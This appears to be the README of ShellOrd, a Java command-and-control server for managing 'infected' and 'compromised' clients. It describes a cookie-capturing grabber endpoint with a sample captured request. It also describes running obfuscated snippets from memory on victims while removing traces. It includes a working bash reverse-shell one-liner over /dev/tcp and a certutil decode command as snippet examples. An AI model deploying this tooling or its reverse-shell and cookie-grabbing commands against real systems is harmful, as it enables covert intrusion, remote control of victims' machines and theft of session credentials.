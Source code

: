 🐚 ShellOrd Server Cross-Platform written in Java

- Plugins: A collection of plugins. (.jar or .py). 

## Requirements

- Python plugins requires Jython Standalone 2.7.3.
- ShellOrd Server requires Java 17+.
- Import Certificates in format PKCS12 (.p12) to enable SSL or HTTPS.

## Web server - Login

![shellord-login](../_img/shellord-login.gif)

### Bypass localhost + capture requests

https://shellord.mibaltoalex.com:60443

shellord.mibaltoalex.com => 127.0.0.1

### Grabber requests (GET / POST)

https://shellord.mibaltoalex.com:60443/grabber/info?cookie=captured

`2022-03-12 11:08:20.842 SHELLORD::grabber: Request captured: 'Host: 127.0.0.1 ; GET /info?cookie=captured'`

## Snippets

All snippets are packed, compressed and encrypted in `.mar` (MAR; MIBALTOALEX ARchive) files.
A snippet can contain URIs, binary code, scripts (bash, powershell, etc) and plain text (.c, .py, .java, .rs, .sh, .rb, .bat, .txt, ...).

Allows you to run any obfuscated snippet on the infected client. You can also run any obfuscated snippet from memory to the client in paranoid mode and remove traces.

Example to use parameters in snippets: 
```bash
# bash
bash -c 'exec bash -i &>/dev/tcp/~[[rhost]]/~[[rport]] <&1'
```
```powershell
# powershell
certutil -decode ~[[file_input]] ~[[file_output]]
```

## Shell

Includes commands to configure SHELLORD.

![shellord-cmd-config](../_img/shellord-cmd-config.jpg)

Note: Deprecated old mode

## Terminal

Management of compromised systems from the terminal or attack map.

![shellord-extensions](../_img/shellord_terminal.jpg)

## Themes

Includes dark and light theme.

![shellord-extensions](../_img/shellord-theme.jpg)

## Modules

An improved module system.

![shellord-extensions](../_img/shellord_new_ui.jpg)

![shellord-extensions](../_img/shellord_new_modules_explotation.jpg)

## Extensions

Includes extensions.

![shellord-extension-demo](../_img/shellord_extension_demo.jpg)

### API

Now allows to set metadata both in code and in annotations

![shellord-metadata](../_img/shellord-metadata.jpg)

### Menu de rutas

Includes menu with custom routes.

![shellord-menu](../_img/shellord-menu.jpg)

### Example

Example launch calculator on victim (Windows)

![shellord-calc](../_img/shellord_calc.gif)

## Utils

- JVM Reverse Engineering

